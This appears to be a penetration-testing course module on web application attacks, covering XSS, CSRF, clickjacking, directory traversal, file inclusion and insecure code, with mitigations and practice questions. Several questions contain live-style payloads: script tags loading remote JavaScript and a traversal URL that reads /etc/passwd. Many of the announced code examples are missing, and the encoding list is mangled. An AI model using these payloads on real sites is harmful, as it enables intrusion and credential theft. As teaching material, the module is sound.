
The following steps are illustrated in Figure 6-18:
Step 1. The attacker finds a vulnerability in the web server.
Step 2. The attacker sends a malicious link to the victim.
Step 3. The victim clicks on the malicious link, and the attack is sent to the vulnerable server.
Step 4. The attack is reflected to the victim and is executed.
Step 5. The victim sends information (depending on the attack) to the attacker.
You can practice XSS scenarios with WebGoat. You can easily test a reflected XSS attack by using the following link:
Replace localhost with the hostname or IP address of the system running WebGoat.
6.7.3 Practice — Reflected XSS Attacks
The IT help desk received a report from an employee that a suspicious email was circulating. A network analyst reviewed the email and noticed that the message contained a phishing link that asked users to visit a website. On further investigation, the analyst noticed that the website is a vulnerable web server, and the phishing link would cause the response from the web server to contain malicious code. Which type of attack would occur if users click the phishing link?
6.7.4 Stored XSS Attacks
Stored, or persistent, XSS attacks occur when malicious code or script is permanently stored on a vulnerable or malicious server, using a database. These attacks are typically carried out on websites hosting blog posts (comment forms), web forums, and other permanent storage methods. An example of a stored XSS attack is a user requesting the stored information from the vulnerable or malicious server, which causes the injection of the requested malicious script into the victim's browser. In this type of attack, the vulnerable server is usually a known or trusted site.
Figure 6-19 and Figure 6-20 illustrate a stored XSS attack. Figure 6-19 shows that a user has entered the string in the second form field in DVWA.

After the user clicks the Sign Guestbook button, the dialog box shown in Figure 6-20 appears. The attack persists because even if the user navigates out of the page and returns to that same page, the dialog box continues to pop up.

In this example, the dialog box message is "Omar was here!" However, in a real attack, an attacker might present users with text persuading them to perform a specific action, such as "your password has expired" or "please log in again." The goal of the attacker would be to redirect the user to another site to steal his or her credentials when the user tries to change the password or once again log in to the fake application.
The Document Object Model (DOM) is a cross-platform and language-independent application programming interface that treats an HTML, XHTML, or XML document as a tree structure. DOM-based attacks are typically reflected XSS attacks that are triggered by sending a link with inputs that are reflected to the web browser. In DOM-based XSS attacks, the payload is never sent to the server. Instead, the payload is only processed by the web client (browser).
In a DOM-based XSS attack, the attacker sends a malicious URL to the victim, and after the victim clicks on the link, the attacker may load a malicious website or a site that has a vulnerable DOM route handler. After the vulnerable site is rendered by the browser, the payload executes the attack in the user's context on that site.
One of the effects of any type of XSS attack is that the victim typically does not realize that an attack has taken place.
DOM-based applications use global variables to manage client-side information. Often developers create unsecured applications that put sensitive information in the DOM (for example, tokens, public profile URLs, private URLs for information access, cross-domain OAuth values, and even user credentials as variables). It is a best practice to avoid storing any sensitive information in the DOM when building web applications.
6.7.5 Practice — Stored XSS Attacks
As part of the Pixel Paradise pentest, you have visited their product review site
and successfully posted the following message:
Warlocks of Wonder is the greatest game of its type ever made!
<script src="https://203.0.113.17/protego_test.js"> </script>
The script creates logfile entries on a Protego server every time a visitor to the reviews page triggers
the script. You immediately start to see entries in the log. What exploit have you created on the Pixel
Paradise web site?
6.7.6 XSS Evasion Techniques
Numerous techniques can be used to evade XSS protections and security products such as web application firewalls (WAFs). Instead of listing all the different evasion techniques outlined by OWASP, this section reviews some of the most popular techniques.
First, let's take a look at an XSS JavaScript injection that would be detected by most XSS filters and security solutions:
The following example shows how the HTML img tag can be used in several ways to potentially evade XSS filters:
It is also possible to use other malicious HTML tags (such as tags), as demonstrated here:
An attacker may also use a combination of hexadecimal HTML character references to potentially evade XSS filters, as demonstrated here:
US ASCII encoding may bypass many content filters and can also be used as an evasion technique, but it works only if the system transmits in US ASCII encoding or if it is manually set. This technique is useful against WAFs. The following example demonstrates the use of US ASCII encoding to evade WAFs:
The following example shows an example of an evasion technique that involves using the HTML embed tags to embed a Scalable Vector Graphics (SVG) file:
The OWASP XSS Filter Evasion Cheat Sheet ( href="https://www.owasp.org/index.php/XSS_Filter_Evasion_Cheat_Sheet" target="_blank">https://www.owasp.org/index.php/XSS_Filter_Evasion_Cheat_Sheet) includes dozens of additional examples of evasion techniques. You can access numerous XSS evasion technique vectors at my GitHub repository, at href="https://github.com/The-Art-of-Hacking/h4cker/blob/master/web_application_testing/xss_vectors.md" target="_blank">https://github.com/The-Art-of-Hacking/h4cker/blob/master/web_application_testing/xss_vectors.md.
6.7.7 XSS Mitigations
The following are general rules for preventing XSS attacks, according to OWASP:
- Use an auto-escaping template system.
- Never insert untrusted data except in allowed locations.
- Use HTML escape before inserting untrusted data into HTML element content.
- Use attribute escape before inserting untrusted data into HTML common attributes.
- Use JavaScript escape before inserting untrusted data into JavaScript data values.
- Use CSS escape and strictly validate before inserting untrusted data into HTML-style property values.
- Use URL escape before inserting untrusted data into HTML URL parameter values.
- Sanitize HTML markup with a library such as ESAPI to protect the underlying application.
- Prevent DOM-based XSS by following OWASP's recommendations at href="https://cheatsheetseries.owasp.org/cheatsheets/DOM_based_XSS_Prevention_Cheat_Sheet.html" target="_blank">https://cheatsheetseries.owasp.org/cheatsheets/DOM_based_XSS_Prevention_Cheat_Sheet.html.
- Use the HTTPOnly cookie flag.
- Implement content security policy.
- Use the X-XSS-Protection response header.
You should also convert untrusted input into a safe form, where the input is displayed as data to the user. This prevents the input from executing as code in the browser. To do this, perform the following HTML entity encoding:
- Convert & to
& - Convert < to
< - Convert > to
> - Convert " to
" - Convert ' to
' - Convert / to
/
The following are additional best practices for preventing XSS attacks:
- Escape all characters (including spaces but excluding alphanumeric characters) with the HTML entity &#xHH; format (where HH is a hex value).
- Use URL encoding only, not the entire URL or path fragments of a URL, to encode parameter values.
- Escape all characters (except for alphanumeric characters), with the \uXXXX Unicode escaping format (where X is an integer).
- CSS escaping supports \XX and \XXXXXX, so add a space after the CSS escape or use the full amount of CSS escaping possible by zero-padding the value.
- Educate users about safe browsing to reduce their risk of falling victim to XSS attacks.
XSS controls are now available in modern web browsers.
One of the best resources that lists several mitigations against XSS attacks and vulnerabilities is the OWASP Cross-Site Scripting Prevention Cheat Sheet, available at href="https://cheatsheetseries.owasp.org/cheatsheets/Cross_Site_Scripting_Prevention_Cheat_Sheet.html" target="_blank">https://cheatsheetseries.owasp.org/cheatsheets/Cross_Site_Scripting_Prevention_Cheat_Sheet.html.
6.7.8 Lab — Cross Site Scripting
Now that you've learned about XSS, it is time to learn how to test for XSS vulnerabilities and practice some exploits.
As you know, we are contracted to test the Pixel Paradise web applications, and looking for XSS vulnerabilities is essential. After you finish the practice lab, you will be ready to participate in our tests of their reviews pages and digital storefront.
In this lab, you will complete the following objectives:
- Part 1: Perform Reflective Cross Site Scripting Exploits
- Part 2: Perform Stored Cross Site Scripting Exploits
You are testing the Pixel Paradise reviews forum by submitting the following text in
the review input field:
This game is great! <script src="http://protego.com/hack_message.png"></script>
When you check for the result of your post, you see the following:
This game is great! src="http://protego.com/hack_message.png">
What do you think happened?
6.8 Understanding Cross-Site Request Forgery (CSRF/XSRF) and Server-Side Request Forgery Attacks
6.8.1 Overview
Cross-site request forgery (CSRF) is a way that attackers can leverage the trust granted to a logged-in user at one site to execute code from a malicious site. It sounds complicated, I know. Unfortunately, this type of attack can be used against users of financial websites, for example, to transfer money to a hacker's account without the user's knowledge. It can also be used to make unauthorized purchases from ecommerce sites. Because of the possibility for lost money, it is essential to test for this vulnerability. Many vulnerability and code scanners have automated tests that are effective.
Vulnerabilities to CSRF can be difficult to mitigate. A few strategies for protecting against CSRF exploits have been shared across the web, however many of them don't work well. It is possible that developers have unknowingly used these ineffective mitigation techniques in their applications and think that they have mitigated the vulnerability when they actually have not. We usually use automated scanning to test for it and then investigate manually if we get alerts that the vulnerability exists.
Cross-site request forgery (abbreviated CSRF or XSRF) attacks occur when unauthorized commands are transmitted from a user who is trusted by an application. CSRF attacks are different from XSS attacks because they exploit the trust that an application has in a user's browser.
CSRF vulnerabilities are also referred to as one-click attacks or session riding.
CSRF attacks typically affect applications (or websites) that rely on a user's identity. Attackers can trick the user's browser into sending HTTP requests to a target website. An example of a CSRF attack is a user authenticated by the application through a cookie saved in the browser unwittingly sending an HTTP request to a site that trusts the user, subsequently triggering an unwanted action.
Figure 6-21 shows an example of a CSRF attack using DVWA.

In Figure 6-21, the web form asks the user to change a password. If you take a closer look at the URL in Figure 6-21, you see that it contains the parameters password_new=test&password_conf=test&Change=Change#. Not only is the password displayed in the URL after the user has entered it in the web form, but because the application allows this, an attacker can easily send a crafted link to any user to change his or her password, as shown here:
If the user follows this link, his or her password will be changed to newpasswd.
CSRF mitigations and defenses are implemented on the server side. The paper located at the following link describes several techniques to prevent or mitigate CSRF vulnerabilities: href="https://seclab.stanford.edu/websec/csrf/csrf.pdf" target="_blank">https://seclab.stanford.edu/websec/csrf/csrf.pdf.
6.8.2 Practice — CSRF/XSRF Attacks
Which statement describes a cross-site request forgery (CSRF/XSRF) attack?
6.9 Understanding Clickjacking
6.9.1 Overview
Clickjacking involves using multiple transparent or opaque layers to induce a user into clicking on a web button or link on a page that he or she was not intended to navigate or click. Clickjacking attacks are often referred to as UI redress attacks. User keystrokes can also be hijacked using clickjacking techniques. An attacker can launch a clickjacking attack by using a combination of CSS stylesheets, iframes, and text boxes to fool the user into entering information or clicking on links in an invisible frame that can be rendered from a site the attacker created.
According to OWASP, these are the two most common techniques for preventing and mitigating clickjacking:
- Send directive response headers to the proper content security policy (CSP) frame ancestors to instruct the browser not to allow framing from other domains. (This replaces the older X-Frame-Options HTTP headers.)
- Use defensive code in the application to make sure the current frame is the top-level window.
The OWASP Clickjacking Defense Cheat Sheet provides additional details about how to defend against clickjacking attacks. The cheat sheet can be accessed at href="https://www.owasp.org/index.php/Clickjacking_Defense_Cheat_Sheet" target="_blank">https://www.owasp.org/index.php/Clickjacking_Defense_Cheat_Sheet.
6.10 Exploiting Security Misconfigurations
6.10.1 Overview
In this part of the course, we are focusing on misconfiguration of web services that result in security vulnerabilities. These vulnerabilities could be caused by something simple, like using well-known defaults in a server configuration, including default passwords. Or misconfigurations may be something a little more complex, like permitting website guests to navigate away from the root of a webserver into other parts of the server or operating system filesystem that could store sensitive information.
At Protego, we use automated vulnerability testing to uncover these issues. Our scanners are very good at finding many security misconfiguration-related vulnerabilities. However, we always need to verify their results and use our knowledge of webserver vulnerabilities, especially in older software versions, to make sure that we haven't missed something.
Attackers can take advantage of security misconfigurations, including directory traversal vulnerabilities and cookie manipulation.
6.10.2 Exploiting Directory Traversal Vulnerabilities
A directory traversal vulnerability (often referred to as path traversal) can allow attackers to access files and directories that are stored outside the web root folder.
Directory traversal has many names, including dot-dot-slash, directory climbing, and backtracking.
It is possible to exploit path traversal vulnerabilities by manipulating variables that reference files with the dot-dot-slash (../) sequence and its variations or by using absolute file paths to access files on the vulnerable system. An attacker can obtain critical and sensitive information when exploiting directory traversal vulnerabilities.
Figure 6-22 shows an example of how to exploit a directory traversal vulnerability.

Figure 6-22 shows the following URL being used:
The vulnerable application shows the contents of the /etc/passwd file to the attacker.
It is possible to use URL encoding, as demonstrated in the following example to exploit directory (path) traversal vulnerabilities:
An attacker can also use several other combinations of encoding – for example, operating system-specific path structures such as / in Linux or macOS systems and in Windows.
The following are a few best practices for preventing and mitigating directory traversal vulnerabilities:
- Understand how the underlying operating system processes filenames provided by a user or an application.
- Never store sensitive configuration files inside the web root directory.
- Prevent user input when using file system calls.
- Prevent users from supplying all parts of the path. You can do this by surrounding the user input with your path code.
- Perform input validation by only accepting known good input.
6.10.3 Practice — Directory Traversal
You are conducting a pentest of a client's web server and enter the following
URL:
http://198.51.100.24:8080/contents/file/?page=../../../../../etc/passwd
This results in the contents of the passwd file being displayed in your browser. What vulnerability have
you just confirmed?
6.10.4 Cookie Manipulation Attacks
Cookie manipulation attacks are often referred to as stored DOM-based attacks (or vulnerabilities). Cookie manipulation is possible when vulnerable applications store user input and then embed that input in a response within a part of the DOM. This input is later processed in an unsafe manner by a client-side script. An attacker can use a JavaScript string (or other scripts) to trigger the DOM-based vulnerability. Such scripts can write controllable data into the value of a cookie.
An attacker can take advantage of stored DOM-based vulnerabilities to create a URL that sets an arbitrary value in a user's cookie.
The impact of a stored DOM-based vulnerability depends on the role that the cookie plays within the application.
A best practice for avoiding cookie manipulation attacks is to avoid dynamically writing to cookies using data originating from untrusted sources.
6.11 Exploiting File Inclusion Vulnerabilities
6.11.1 Overview
We need to assess Pixel Paradise's weakness to local and remote file inclusion (LFI/RFI) vulnerabilities. We believe that web site and network users should not be able to access any files beyond those that are needed for the user's role. The ability to read or execute even one file without authorization means that there are probably many more that can also be accessed, either at the present time, or in the future.
We will apply this standard to our engagement with Pixel Paradise. We are especially concerned that their web applications use scripting run times. We know that their game review forum permits uploading of files from users. This is another potential source for file inclusion vulnerabilities.
The sections that follow provide details about local and remote file inclusion vulnerabilities.
6.11.2 Local File Inclusion Vulnerabilities
A local file inclusion (LFI) vulnerability occurs when a web application allows a user to submit input into files or upload files to the server. Successful exploitation could allow an attacker to read and (in some cases) execute files on the victim's system. Some LFI vulnerabilities can be critical if a web application is running with high privileges or as root. Such vulnerabilities can allow attackers to gain access to sensitive information and can even enable them to execute arbitrary commands in the affected system.
Figure 6-22 from the previous topic and repeated below shows an example of a directory traversal vulnerability, but the same application also has an LFI vulnerability: The /etc/passwd file can be shown in the application page due to an LFI flaw.

6.11.3 Remote File Inclusion Vulnerabilities
Remote file inclusion (RFI) vulnerabilities are similar to LFI vulnerabilities. However, when an attacker exploits an RFI vulnerability, instead of accessing a file on the victim, the attacker is able to execute code hosted on his or her own system (the attacking system).
RFI vulnerabilities are trivial to exploit; however, they are less common than LFI vulnerabilities.
Figure 6-23 shows an example of exploiting a remote file inclusion vulnerability.

The attacker enters the following URL to perform the attack in Figure 6-23:
In this example, the attacker's website (http://malicious.h4cker.org/malware.html) is likely to host malware or malicious scripts that can be executed when the victim visits that site.
The URL http://malicious.h4cker.org/malware.html is a real URL, but it is not a malicious site. If you connect to it in a web browser, you will see a message similar to the one in Figure 6-23.
6.12 Exploiting Insecure Code Practices
6.12.1 Overview
Because most university computer science departments do not emphasize security in their software development courses, many developers, especially new graduates, are unaware of their role in preventing cybersecurity incidents.
While organizations may use some sort of source code and binaries pre-deployment security scanning, unless developers are directly involved in remediating their own insecure practices, they are likely to repeat their mistakes.
Some software development organizations the use DevOps practices include automated source code scanning every time developers' work is committed to a code repository and every time binaries are submitted to build repositories. This enables what is called a shift-left approach to software security in which developers take an active responsibility for enhancing security in their own code based on feedback from these scanners.
We can only hope! We have not been informed of how Pixel Paradise ensures that their code is developed with security in mind, but we will find out!
The following sections cover several insecure code practices that attackers can exploit and that you can leverage during a penetration testing engagement.
6.12.2 Comments in Source Code
Often developers include information in source code that could provide too much information and might be leveraged by an attacker. For example, they might provide details about a system password, API credentials, or other sensitive information that an attacker could find and use.
MITRE created a standard called the Common Weakness Enumeration (CWE). The CWE lists identifiers that are given to security malpractices or the underlying weaknesses that introduce vulnerabilities. CWE-615, "Information Exposure Through Comments", covers the flaw described in this section. You can obtain details about CWE-615 at https://cwe.mitre.org/data/definitions/615.html.
6.12.3 Lack of Error Handling and Overly Verbose Error Handling
Improper error handling is a type of weakness and security malpractice that can provide information to an attacker to help him or her perform additional attacks on the targeted system. Error messages such as error codes, database dumps, and stack traces can provide valuable information to an attacker, such as information about potential flaws in the applications that could be further exploited.
A best practice is to handle error messages according to a well-thought-out scheme that provides a meaningful error message to the user, diagnostic information to developers and support staff, and no useful information to an attacker.
OWASP provides detailed examples of improper error handling at href="https://owasp.org/www-community/Improper_Error_Handling" target="_blank">https://owasp.org/www-community/Improper_Error_Handling. OWASP also provides a cheat sheet that discusses how to find and prevent error handling vulnerabilities; see href="https://cheatsheetseries.owasp.org/cheatsheets/Error_Handling_Cheat_Sheet.html" target="_blank">https://cheatsheetseries.owasp.org/cheatsheets/Error_Handling_Cheat_Sheet.html.
6.12.4 Practice — Insecure Code
You are testing the security of a digital store front application by attempting to force the application to crash. Why is this activity included in a penetration test?
6.12.5 Hard-Coded Credentials
Hard-coded credentials are catastrophic flaws that an attacker can leverage to completely compromise an application or the underlying system. MITRE covers this malpractice (or weakness) in CWE-798. You can obtain detailed information about CWE-798 at https://cwe.mitre.org/data/definitions/798.html.
6.12.6 Race Conditions
A race condition occurs when a system or an application attempts to perform two or more operations at the same time. However, due to the nature of such a system or application, the operations must be done in the proper sequence in order to be done correctly. When an attacker exploits such a vulnerability, he or she has a small window of time between when a security control takes effect and when the attack is performed. The attack complexity in race conditions is very high. In other words, race conditions are very difficult to exploit.
Race conditions are also referred to as time of check to time of use (TOCTOU) attacks.
An example of a race condition is a security management system pushing a configuration to a security device (such as a firewall or an intrusion prevention system) such that the process rebuilds access control lists and rules from the system. An attacker may have a very small time window in which it could bypass those security controls until they take effect on the managed device.
6.12.7 Unprotected APIs
Application programming interfaces (APIs) are used everywhere today. A large number of modern applications use APIs to allow other systems to interact with the application. Unfortunately, many APIs lack adequate controls and are difficult to monitor. The breadth and complexity of APIs also make it difficult to automate effective security testing. There are a few methods or technologies behind modern APIs:
- Simple Object Access Protocol (SOAP): This standards-based web services access protocol was originally developed by Microsoft and has been used by numerous legacy applications for many years. SOAP exclusively uses XML to provide API services. XML-based specifications are governed by XML Schema Definition (XSD) documents. SOAP was originally created to replace older solutions such as the Distributed Component Object Model (DCOM) and Common Object Request Broker Architecture (CORBA). You can find the latest SOAP specifications at https://www.w3.org/TR/soap.
- Representational State Transfer (REST): This API standard is easier to use than SOAP. It uses JSON instead of XML, and it uses standards such as Swagger and the OpenAPI Specification ( href="https://www.openapis.org/" target="_blank">https://www.openapis.org) for ease of documentation and to encourage adoption.
- GraphQL: GraphQL is a query language for APIs that provides many developer tools. GraphQL is now used for many mobile applications and online dashboards. Many different languages support GraphQL. You can learn more about GraphQL at https://graphql.org/code.
SOAP and REST use the HTTP protocol. However, SOAP is limited to a more strict set of API messaging patterns than REST. As a best practice, you should always use Hypertext Transfer Protocol Secure (HTTPS), which is the secure version of HTTP. HTTPS uses encryption over the Transport Layer Security (TLS) protocol in order to protect sensitive data.
An API often provides a roadmap that describes the underlying implementation of an application. This roadmap can give penetration testers valuable clues about attack vectors they might otherwise overlook. API documentation can provide a great level of detail that can be very valuable to a penetration tester. API documentation can include the following:
- Swagger (OpenAPI): Swagger is a modern framework of API documentation and development that is the basis of the OpenAPI Specification (OAS). Additional information about Swagger can be obtained at https://swagger.io. The OAS specification is available at https://github.com/OAI/OpenAPI-Specification.
- Web Services Description Language (WSDL) documents: WSDL is an XML-based language that is used to document the functionality of a web service. The WSDL specification can be accessed at href="https://www.w3.org/TR/wsdl20-primer" target="_blank">https://www.w3.org/TR/wsdl20-primer.
- Web Application Description Language (WADL) documents: WADL is an XML-based language for describing web applications. The WADL specification can be obtained from href="https://www.w3.org/Submission/wadl" target="_blank">https://www.w3.org/Submission/wadl.
When performing pen testing against an API, it is important to collect full requests by using a proxy such as Burp Suite or OWASP ZAP. (You will learn more about these tools in Module 10.) It is important to make sure that the proxy is able to collect full API requests and not just URLs because REST, SOAP, and other API services use more than just GET parameters.
When you are analyzing the collected requests, look for nonstandard parameters and for abnormal HTTP headers. You should also determine whether a URL segment has a repeating pattern across other URLs. These patterns can include a number or an ID, dates, and other valuable information. Inspect the results and look for structured parameter values in JSON, XML, or even nonstandard structures.
If you notice that a URL segment has many values, it may be because it is a parameter and not a folder or a directory on the web server. For example, if the URL http://web.h4cker.org/s/abcd/page repeats with different values for abcd (such as http://web.h4cker.org/s/dead/page or http://web.h4cker.org/s/beef/page), those changing values are definitely API parameters.
You can also use fuzzing to find API vulnerabilities (or vulnerabilities in any application or system). According to OWASP, "Fuzz testing or Fuzzing is an unknown environment/black box software testing technique, which basically consists in finding implementation bugs using malformed/semi-malformed data injection in an automated fashion."
Refer to the OWASP page https://www.owasp.org/index.php/Fuzzing to learn about the different types of fuzzing techniques to use with protocols, applications, and other systems. In Module 10 you will see examples of fuzzers and how to use them to find vulnerabilities.
When testing APIs, you should always analyze the collected requests to optimize fuzzing. After you find potential parameters to fuzz, determine the valid and invalid values that you want to send to the application. Of course, fuzzing should focus on invalid values (for example, sending a GET or PUT with large values or special characters, Unicode, and so on). In Module 10 you will learn about tools like Radamsa (https://gitlab.com/akihe/radamsa) that can be used to create fuzzing parameters for testing applications, protocols, and more.
OWASP has a REST Security Cheat Sheet that provides numerous best practices on how to secure RESTful (REST) APIs. See href="https://cheatsheetseries.owasp.org/cheatsheets/REST_Security_Cheat_Sheet.html" target="_blank">https://cheatsheetseries.owasp.org/cheatsheets/REST_Security_Cheat_Sheet.html.
The following are several general best practices and recommendations for securing APIs:
- Secure API services to provide HTTPS endpoints with only a strong version of TLS.
- Validate parameters in the application and sanitize incoming data from API clients.
- Explicitly scan for common attack signatures; injection attacks often betray themselves by following common patterns.
- Use strong authentication and authorization standards.
- Use reputable and standard libraries to create the APIs.
- Segment API implementation and API security into distinct tiers; doing so frees up the API developer to focus completely on the application domain.
- Identify what data should be publicly available and what information is sensitive.
- If possible, have a security expert do the API code verification.
- Make internal API documentation mandatory.
- Avoid discussing company API development (or any other application development) on public forums.
CWE-227, "API Abuse," covers unsecured APIs. For detailed information about CWE-227, see href="https://cwe.mitre.org/data/definitions/227.html" target="_blank">https://cwe.mitre.org/data/definitions/227.html.
6.12.8 Practice — Unprotected APIs
Match the technologies behind modern APIs to their descriptions.
| Technology | Description |
|---|---|
| A — Representational State Transfer (REST) | An API standard that uses JSON and standards such as Swagger and the OpenAPI Specification for ease of documentation and to encourage adoption. |
| B — GraphQL | A query language for APIs that provides many developer tools and is now used for mobile applications and online dashboards. |
| C — Simple Object Access Protocol (SOAP) | A standards-based web services access protocol, initially developed by Microsoft, that exclusively uses XML to provide API services. |
6.12.9 Hidden Elements
Web application parameter tampering attacks can be executed by manipulating parameters exchanged between the web client and the web server in order to modify application data. This could be achieved by manipulating cookies (as discussed earlier in this module) and by abusing hidden form fields.
It might be possible to tamper with the values stored by a web application in hidden form fields. Let's take a look at an example of a hidden HTML form field. Suppose that the following is part of an e-commerce site selling merchandise to online customers:
In the hidden field shown in this example, an attacker could potentially edit the value information to reduce the price of an item. Not all hidden fields are bad; in some cases, they are useful for the application, and they can even be used to protect against CSRF attacks.
6.12.10 Lack of Code Signing
Code signing (or image signing) involves adding a digital signature to software and applications to verify that the application, operating system, or any software has not been modified since it was signed. Many applications are still not digitally signed today, which means attackers can easily modify and potentially impersonate legitimate applications.
Code signing is similar to the process used for SSL/TLS certificates. A key pair (one public key and one private key) identifies and authenticates the software engineer (developer) and his or her code. This is done by employing trusted certificate authorities (CAs). Developers sign their applications and libraries using their private key. If the software or library is modified after signing, the public key in a system will not be able to verify the authenticity of the developer's private key signature.
Subresource Integrity (SRI) is a security feature that allows you to provide a hash of a file fetch by a web browser (client). SRI verifies file integrity and ensures that files are delivered without any tampering or manipulation by an attacker.
6.12.11 Additional Web Application Hacking Tools
Many ethical and malicious hackers use web proxies to exploit vulnerabilities in web applications. A web proxy, in this context, is a piece of software that is typically installed in the attacker's system to intercept, modify, or delete transactions between a web browser and a web application. Figure 6-24 shows how a web proxy works.

Two of the most popular web proxies used to hack web applications are Burp Suite and ZAP. Burp Suite is a collection of tools and capabilities, one of which is a web proxy.
Burp Suite, also simply known as "Burp," comes in two different versions: the free Burp Suite Community Edition and the paid Burp Suite Professional Edition. Figure 6-25 shows the Burp Suite Community Edition being used to intercept transactions from the attacker's web browser and a web application. You can see how session cookies and other information can be intercepted and captured in the proxy.

Burp Suite was created by a company called PortSwigger, which has a very comprehensive (and free) web application security online course at https://portswigger.net/web-security. This course provides free labs and other materials that can help you prepare for the PenTest+ and other certifications.
OWASP ZAP is a collection of tools including proxy, automated scanning, fuzzing, and other capabilities that can be used to find vulnerabilities in web applications. You can download OWASP ZAP, which is free, from https://www.zaproxy.org. Figure 6-26 shows how OWASP ZAP is used to perform an automated scan of a vulnerable web application. In this example, OWASP ZAP found two vulnerable JavaScript libraries that an attacker could leverage to compromise the web application.
